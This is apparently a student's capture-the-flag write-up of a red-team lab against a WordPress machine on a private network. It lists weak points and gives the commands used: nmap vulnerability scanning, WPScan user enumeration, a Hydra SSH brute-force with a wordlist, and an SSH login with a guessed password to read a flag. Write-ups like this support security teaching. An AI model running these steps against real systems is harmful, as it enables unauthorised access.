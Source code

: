 To further point out the severity of the vulnerabilities on this machine;

  - WordPress Discoverable Usernames.
  - Simple Passwords.
  - wp-config in default location on WordPress installation.
  - NOPASSWD Privilege Escalation

We also ran nmap -sV --script=vulners -v 192.168.1.110 to Ennumerate further machine vulnerabilities and they came up as follows;

Read more [here](./raw.txt)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to ennumerate users from the Target 1 WordPress site
      - Command:
        - ```bash
          $ wpscan --url http://192.168.1.110 --detection-mode aggressive -eu
          ```
    ![Ennumerate_users](./images/wpscan_ennumerate.png)
    - Targeting Michael
      - Using Hydra and the following command;
      ``` bash
      hydra -l michael -P /usr/share/wordlist/rockyou.txt -s 22 192.168.1.110 ssh
      ```
      But this Password was so simple it could have been guessed outright
      - password is "michael"
      - Capturing flag 1
        - the flag was found inside of a file located in /var/www/html folder at root in service.html in a comment below the footer.
        - commands are as follows;
          ```bash
          $ ssh michael@192.168.1.110
          password = michael
          $ cd ../../var/www/html
          $ cat service.html | grep flag1
          ```
